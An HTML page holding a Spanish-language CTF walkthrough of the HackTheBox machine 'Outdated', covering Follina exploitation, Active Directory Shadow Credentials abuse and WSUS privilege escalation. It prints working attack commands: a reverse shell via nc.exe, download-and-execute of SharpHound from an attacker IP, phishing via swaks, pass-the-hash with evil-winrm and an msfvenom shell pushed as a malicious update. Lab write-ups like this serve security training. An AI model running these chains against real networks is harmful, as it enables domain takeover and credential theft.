


<!DOCTYPE html>
<html lang="es">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Post - Outdated</title>
    <link href="https://fonts.googleapis.com/css2?family=Merriweather:wght@400;700&family=Open+Sans:wght@400;600&display=swap" rel="stylesheet">
    <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/styles/github.min.css">
    <style>
        body {
            font-family: 'Open Sans', sans-serif;
            max-width: 800px;
            margin: 0 auto;
            padding: 20px;
            color: #fff;
            background-color: #000;
            line-height: 1.6;
        }
        
        h1, h2, h3, h4, h5, h6 {
            font-family: 'Merriweather', serif;
            margin-bottom: 20px;
        }

        img {
            max-width: 100%;
            height: auto;
            margin: 20px 0;
            border-radius: 5px;
            box-shadow: 0 4px 6px rgba(255, 255, 255, 0.1);
        }

        pre {
            background-color: #222;
            padding: 10px;
            overflow-x: auto;
            border-radius: 5px;
        }

        code {
            font-family: 'Courier New', Courier, monospace;
            background-color: #222;
            padding: 2px 4px;
            border-radius: 3px;
        }

        blockquote {
            border-left: 4px solid #ccc;
            margin-left: 0;
            padding-left: 20px;
            font-style: italic;
            color: #ccc;
        }

        a {
            color: #fff;
            text-decoration: underline;
        }
    </style>
</head>
<body>
    <div id="post">
        <!-- Aquí se insertará el contenido del post en formato Markdown -->
    </div>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/showdown/1.9.1/showdown.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/highlight.js/10.7.2/highlight.min.js"></script>
    <script>
        // Obtener el contenido del post en formato Markdown (puedes reemplazar esto con tu propia lógica)
        const markdownContent = `
# Máquina "Outdated" de HackTheBox

Caracteristicas:

- Windows
- Media
- SMB Enumeration
- Follina Exploitation (CVE-2022-30190) + Nishang PowerShell TCP Shell [Remote Code Execution]
- SharpHound + BloodHound DC Enumeration
- Abusing AddKeyCredentialLink Privilege [Invoke-Whisker.ps1 - Shadow Credentials]
- Getting the user's NTLM Hash with Rubeus
- Abusing WinRM - EvilWinRM
- Abusing WSUS Administrator Group
- WSUS Exploitation - Creating a malicios patch for deployment [Privilege Escalation]

Util en:

- OSCP
- OSEP
- Active Directory

        IP 10.10.11.175

- nmap -p- --min-rate 10000 10.10.11.175

<pre>
<code>
PORT      STATE    SERVICE
25/tcp    open     smtp
53/tcp    open     domain
88/tcp    open     kerberos-sec
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
143/tcp   open     imap
389/tcp   open     ldap
445/tcp   open     microsoft-ds
464/tcp   open     kpasswd5
587/tcp   open     submission
593/tcp   open     http-rpc-epmap
636/tcp   open     ldapssl
2179/tcp  open     vmrdp
3268/tcp  open     globalcatLDAP
3269/tcp  open     globalcatLDAPssl
5985/tcp  open     wsman
8530/tcp  open     unknown
8531/tcp  open     unknown
9389/tcp  open     adws
23088/tcp filtered unknown
26319/tcp filtered unknown
34206/tcp filtered unknown
43966/tcp filtered unknown
47001/tcp open     winrm
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49669/tcp open     unknown
49670/tcp open     unknown
49671/tcp open     unknown
49674/tcp open     unknown
49762/tcp filtered unknown
49890/tcp open     unknown
49919/tcp open     unknown
49932/tcp open     unknown
49936/tcp open     unknown
54471/tcp filtered unknown
</code>
</pre>

nmap -p 25,53,88,135,139,143,389,445,464,587,593,636,2179,3268,3269,5985,8530,8531,9389 -sCV 10.10.11.175

<pre>
<code>
PORT     STATE SERVICE       VERSION
25/tcp   open  smtp          hMailServer smtpd
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
53/tcp   open  domain?
| fingerprint-strings: 
|   DNSVersionBindReqTCP: 
|     version
|_    bind
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-07-22 07:00:49Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
143/tcp  open  tcpwrapped
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after:  2024-06-18T06:00:24
|_ssl-date: 2022-07-22T07:03:39+00:00; +8h20m04s from scanner time.
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
587/tcp  open  smtp          hMailServer smtpd
| smtp-commands: mail.outdated.htb, SIZE 20480000, AUTH LOGIN, HELP, 
|_ 211 DATA HELO EHLO MAIL NOOP QUIT RCPT RSET SAML TURN VRFY 
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after:  2024-06-18T06:00:24
|_ssl-date: 2022-07-22T07:03:38+00:00; +8h20m03s from scanner time.
2179/tcp open  vmrdp?
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after:  2024-06-18T06:00:24
|_ssl-date: 2022-07-22T07:03:40+00:00; +8h20m04s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: outdated.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: DNS:DC.outdated.htb, DNS:outdated.htb, DNS:OUTDATED
| Not valid before: 2022-06-18T05:50:24
|_Not valid after:  2024-06-18T06:00:24
|_ssl-date: 2022-07-22T07:03:38+00:00; +8h20m03s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8530/tcp open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title.
8531/tcp open  unknown
9389/tcp open  mc-nmf        .NET Message Framing
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port53-TCP:V=7.80%I=7%D=7/21%Time=62D9D5F2%P=x86_64-pc-linux-gnu%r(DNSV
SF:ersionBindReqTCP,20,"\0\x1e\0\x06\x81\x04\0\x01\0\0\0\0\0\0\x07version\
SF:x04bind\0\0\x10\0\x03");
Service Info: Hosts: mail.outdated.htb, DC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 8h20m03s, deviation: 0s, median: 8h20m03s
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-07-22T07:03:10
|_  start_date: N/A
</code>
</pre>

Parece que la máquina es un Controlador de Dominio con varios dominios. Así que agrégalos a tu /etc/hosts. 
Luego, con el siguiente script , es posible verificar los permisos de Acciones. 

<pre>
<code>
kali@kali:~/Documents/HTB/Outdated$ ~/Documents/Scripts/checkSMBPermissions.sh 'anonymous' '' 10.10.11.175

Checking share: 'ADMIN$'
Checking share: 'C$'
Checking share: 'NETLOGON'
Checking share: 'Shares'
  - anonymous has read access
Checking share: 'SYSVOL'
Checking share: 'UpdateServicesPackages'
Checking share: 'WsusContent'
Checking share: 'WSUSTemp'
</code>
</pre>

Dentro del recurso compartido "shares", hay un PDF. 

<pre>
<code>
kali@kali:~/Documents/HTB/Outdated$ smbclient -N //10.10.11.175/Shares

Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Jun 20 11:01:33 2022
  ..                                  D        0  Mon Jun 20 11:01:33 2022
  NOC_Reminder.pdf                   AR   106977  Mon Jun 20 11:00:32 2022

                9116415 blocks of size 4096. 2150420 blocks available


</code>
</pre>

Dentro del pdf



El texto habla de enviar enlaces al soporte de TI para monitorear las plataformas internas. Curiosamente, también se habla de CVE que deben parchearse, el primer 
CVE-2022-30190 (https://github.com/ernestak/CVE-2022-30190) .alias Follina, que utiliza el enlace externo de Word que llama a la herramienta de diagnóstico de 
soporte de Microsoft (MSDT) para realizar la ejecución del código. 

podemos explotar esto con el script de John Hammond, pero debemos modificarlo para que apunte a nuestra maquina

<pre>
<code>
[...]
	if args.reverse:
        command = f"""Invoke-WebRequest http://10.10.14.130/nc64.exe -OutFile C:\\Windows\\Tasks\\nc.exe; C:\\Windows\\Tasks\\nc.exe -e cmd.exe {serve_host} {args.reverse}"""
        os.system("cp nc64.exe "+serve_path
[...]
    if args.reverse:
        t = threading.Thread(target=serve_http, args=())
        t.start()
        print(f"[+] starting 'nc -lvnp {args.reverse}' ")
        os.system(f"rlwrap nc -lnvp {args.reverse}")
</code>
</pre>

luego ejecutamos

<pre>
<code>
kali@kali:~/Documents/HTB/Outdated/msdt-follina$ python3 follina.py --interface tun0 --port 80 --reverse 443
[+] copied staging doc /tmp/wt3ylf2c
[+] created maldoc ./follina.doc
[+] serving html payload on :80
[+] starting 'nc -lvnp 443' 
listening on [any] 443 ...
</code>
</pre>

luego mandamos un correo con un enlace a ti.

- kali@kali:~/Documents/HTB/Outdated/msdt-follina$ swaks --to itsupport@outdated.htb --from marmeus@marmeus.com --server mail.outdated.htb --body "http://<ATTACKER_IP>/"

tenemos la shell inversa como btables

## Escalada de privilegios

Usaremos sharpHound para recopilar datos como los del dominio.

- C:\Users\btables\AppData\Local\Temp\SDIAG_20ab2273-6de8-4357-963b-cf3b570e74af> powershell -exec bypass -c "IEX(New-Object Net.WebClient).downloadString('http://<ATTACKER_IP>:8080/SharpHound.ps1'); Invoke-Bloodhound -CollectionMethod All -ZipFileName loot.zip"

y luego smbserver

- kali@kali:~/Documents/HTB/Outdated$ smbserver.py -smb2support  a .

copiaremos lo encontrado en nuestra maquina

- C:\Users\btables\AppData\Local\Temp\SDIAG_20ab2273-6de8-4357-963b-cf3b570e74af> copy 20220912201007_loot.zip \\10.10.14.130\a\

no existe una ruta directa al administrador del dominio, utilizando la opción pathfinding es posible obtener una ruta que nos permita convertirnos en el usuario "sflowers". 



se puede lograr abusando de una técnica llamada " Credenciales Shadow " (https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/shadow-credentials),
que requiere una versión compilada de Whisker , pero gracias a PowerShark, se puede obtener con el siguiente comando: 

- curl -s https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-Whisker.ps1 | grep FromBAsE64String | cut -d '"' -f 2 | base64 -d > Whisker.gz

- gunzip Whisker.gz

- mv Whisker Whisker.exe

Después de eso, para convertirte en sflowers, ejecuta los siguientes comandos: 

<pre>
<code>
# UPLOAD BINARIES

C:\Users\btables\AppData\Local\Temp\SDIAG_80424d7e-875a-4f69-ae89-1166ec1effd9> powershell.exe Invoke-WebRequest -Uri "http://10.10.14.130/Whisker.exe" -OutFile Whisker.exe

C:\Users\btables\AppData\Local\Temp\SDIAG_80424d7e-875a-4f69-ae89-1166ec1effd9> 

# Add a new shadow credential to sflowers

C:\Users\btables\AppData\Local\Temp\SDIAG_80424d7e-875a-4f69-ae89-1166ec1effd9> Whisker.exe add /target:sflowers

[...]
Rubeus.exe asktgt /user:sflowers /certificate:"<BASE64_CERTIFICATE>" /password:"<PASSWORD>" /domain:outdated.htb /dc:DC.outdated.htb /getcredentials /show

# Execute generated Rubeus command to obtain sflowers' NTLM hash.

C:\Users\btables\AppData\Local\Temp\SDIAG_80424d7e-875a-4f69-ae89-1166ec1effd9> 

[*] Getting credentials using U2U

  CredentialInfo         :
    Version              : 0
    EncryptionType       : rc4_hmac
    CredentialData       :
      CredentialCount    : 1
       NTLM              : 1FCDB1F6015DCB318CC77BB2BDA14DB5

- kali@kali:~/Documents/HTB/Outdated$ evil-winrm -i outdated.htb -u sflowers -H 1FCDB1F6015DCB318CC77BB2BDA14DB5

[...]
*Evil-WinRM* PS C:\Users\sflowers\Documents> type ../Desktop/user.txt
[CENSORED]
</code>
</pre>

y buscamos la flag de user.
Ahora buscaremos, la proxima escalada de privilegios a root. Empezaremos con WinPEAS y aparece la técnica de escalada de privilegios de WSUS. 

<pre>
<code>
    *Evil-WinRM* PS C:\Users\sflowers\Documents> powershell.exe Invoke-WebRequest -Uri "http://<ATTACKER_IP>/winPEASx64.exe" -OutFile winPEASx64.exe
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\winPEASx64.exe
[...]
╔══════════╣ Checking WSUS                  
╚  https://book.hacktricks.xyz/windows/windows-local-privilege-escalation#wsus
    WSUS is using http: http://wsus.outdated.htb:8530
╚ You can test https://github.com/pimps/wsuxploit to escalate privileges
    And UseWUServer is equals to 1, so it is vulnerable! 


</code>
</pre>

existe una alternativa llamada SharpWSUS (https://github.com/nettitude/SharpWSUS) ya que la anterior no funciona en este escenario. requiere compilación y 
tamvien necesita PsExec para ejecutar la carga útil como "Sistema de autoridad". Ademas necesita crear un shell inverso con msfvenom que se ejecutará durante la actualización. 

- curl -s https://raw.githubusercontent.com/S3cur3Th1sSh1t/PowerSharpPack/master/PowerSharpBinaries/Invoke-SharpWSUS.ps1 | grep FromBAsE64String | cut -d '"' -f 2 | base64 -d > SharpWSUS.gz

gunzip SharpWSUS.gz

mv SharpWSUS SharpWSUS.exe

- wget https://download.sysinternals.com/files/PSTools.zip

unzip PSTools.zip

- msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACKER_IP> LPORT=4444 -f exe -o shell.exe

lo mandamos a la victima

<pre>
<code>
*Evil-WinRM* PS C:\Users\sflowers\Documents> powershell.exe Invoke-WebRequest -Uri "http://<ATTACKER_IP>/SharpWSUS.exe" -OutFile SharpWSUS.exe
*Evil-WinRM* PS C:\Users\sflowers\Documents> powershell.exe Invoke-WebRequest -Uri "http://<ATTACKER_IP>/PsExec64.exe" -OutFile PsExec64.exe
*Evil-WinRM* PS C:\Users\sflowers\Documents> powershell.exe Invoke-WebRequest -Uri "http://<ATTACKER_IP>/shell.exe" -OutFile shell.exe
</code>
</pre>

debemos realizar los pasos minuciosamente cualquier error nos hara fallar ( https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Active%20Directory%20Attack.md#wsus-deployment )

<pre>
<code>
*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe locate

[...]

[*] Action: Locate WSUS Server
WSUS Server: http://wsus.outdated.htb:8530

[*] Locate complete

*Evil-WinRM* PS C:\Users\sflowers\Documents> .\SharpWSUS.exe inspect

[...]

################# WSUS Server Enumeration via SQL ##################
ServerName, WSUSPortNumber, WSUSContentLocation
-----------------------------------------------
DC, 8530, c:\WSUS\WsusContent

####################### Computer Enumeration #######################
ComputerName, IPAddress, OSVersion, LastCheckInTime
---------------------------------------------------
dc.outdated.htb, dead:beef::242, 10.0.17763.1432, 9/13/2022 3:53:49 AM

####################### Downstream Server Enumeration #######################
ComputerName, OSVersion, LastCheckInTime
---------------------------------------------------

####################### Group Enumeration #######################
GroupName
---------------------------------------------------
All Computers
Downstream Servers
Unassigned Computers

[*] Inspect complete
</code>
</pre>

Luego, crea la actualización

<pre>
<code>
*Evil-WinRM* PS C:\Users\sflowers\Documents>  .\SharpWSUS.exe create /payload:"C:\Users\sflowers\Documents\PsExec64.exe" /args:"-accepteula -s -d C:\Users\sflowers\Documents\shell.exe" /title:"Marmeus update"

[...]

[*] Update created - When ready to deploy use the following command:
[*] SharpWSUS.exe approve /updateid:2c71c2a6-c08b-4f2c-9da8-423588eac658 /computername:Target.FQDN /groupname:"Group Name"
                                                    
[*] To check on the update status use the following command:
[*] SharpWSUS.exe check /updateid:2c71c2a6-c08b-4f2c-9da8-423588eac658 /computername:Target.FQDN
                                                                                                         
[*] To delete the update use the following command:
[*] SharpWSUS.exe delete /updateid:2c71c2a6-c08b-4f2c-9da8-423588eac658 /computername:Target.FQDN /groupname:"Group Name"
</code>
</pre>

Después de eso, ejecute el comando approve que aparece después de crear la actualización. 

- .\SharpWSUS.exe approve /updateid:<UPDATE_ID> /computername:dc.outdated.htb /groupname:"Marmeus group" 


<pre>
<code>
kali@kali:~/Documents/HTB/Outdated$ rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.14.144] from (UNKNOWN) [10.10.11.175] 65231
Microsoft Windows [Version 10.0.17763.1432]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>type C:\Users\Administrator\Desktop\root.txt
[CENSORED]
</code>
</pre>

y somos root.

Algunos de los writeups en esta página, pueden tener contenido de otras páginas o tener muy pocas imágenes, esto 
debido a que en algunas de las máquinas que realice, no tome los apuntes o no tome capturas de pantalla, así que he decidido buscar varios writeups
y agregar lo que esté mejor explicado en cada uno para plasmarlo aquí, también si encuentra faltas de ortografía 
o cualquier error, Puedes contactarme a mi correo.

lerioxirit@proton.me


        `;
        
        // Convertir Markdown a HTML
        const converter = new showdown.Converter();
        const html = converter.makeHtml(markdownContent);

        // Insertar el HTML generado en el elemento con id "post"
        document.getElementById('post').innerHTML = html;

        // Resaltar la sintaxis del código
        hljs.initHighlightingOnLoad();
    </script>
</body>
</html>